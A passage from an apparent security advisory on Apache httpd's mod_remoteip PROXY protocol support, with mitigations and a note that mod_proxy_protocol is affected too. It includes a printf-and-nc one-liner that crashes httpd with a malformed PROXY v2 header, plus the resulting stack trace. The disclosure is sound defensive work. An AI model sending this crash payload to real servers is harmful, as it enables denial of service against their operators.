 It can also be triggered with a valid PROXY v2 message using the PROXY command
and an unsupported address family/protocol:

```
printf "\x0D\x0A\x0D\x0A\x00\x0D\x0A\x51\x55\x49\x54\x0A\x21\x00\x00\x00" | nc localhost 6666
```

Stack trace:
```
Thread 3 "httpd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff2e0b700 (LWP 17437)]
0x00007ffff486ebad in remoteip_input_filter (f=0x7fffec037690, bb_out=0x7fffdc003e58, mode=AP_MODE_GETLINE,.
    block=APR_BLOCK_READ, readbytes=0) at mod_remoteip.c:1248
    1248        ap_log_cerror(APLOG_MARK, APLOG_DEBUG, 0, f->c, APLOGNO(03511)
```

# Mitigations

The Apache `mod_remoteip` docs[1] strongly encourages care with what
intermediate hosts should be trusted to provide `mod_remoteip` inputs:

> It is critical to only enable this behavior from intermediate hosts (proxies,
> etc) which are trusted by this server, since it is trivial for the remote
> useragent to impersonate another useragent.

Administrators that restrict the hosts that can send requests to the
VirtualHost/Server with `RemoteIPPRoxyProtocol on` (e.g. through external
firewall policy/network controls) will restrict their exposure
to these vulnerabilities.

Unfortunately unlike the `RemoteIPHeader` directives it is *not* possible to
configure `RemoteIPProxyProtocol on` and whitelist intermediate IP addresses
(e.g. like `RemoteIPInternalProxyList`) within the Apache configuration. Thus
administrators must take action above and beyond their Apache configuration to
use this module safely and mitigate the reported vulnerabilities.

# Applicability to mod_proxy_protocol

The core Apache project `mod_remoteip` module's PROXY support was originally
adopted from a 3rd party module, `mod_proxy_protocol`[2]. All of the
vulnerabilities identified in this report are from code shared with the original
`mod_proxy_protocol` module. Users of this module with other HTTPD versions are
equally affected by these vulnerabilities.

# References

[0] https://httpd.apache.org/docs/2.4/mod/mod_remoteip.html
[1] https://www.haproxy.org/download/1.8/doc/proxy-protocol.txt
[2] https://github.com/roadrunner2/mod-proxy-protocol
[3] https://github.com/apache/httpd/blob/8cfc6007670cf4bcc7129c197dda456e0d5de102/modules/metadata/mod_remoteip.c
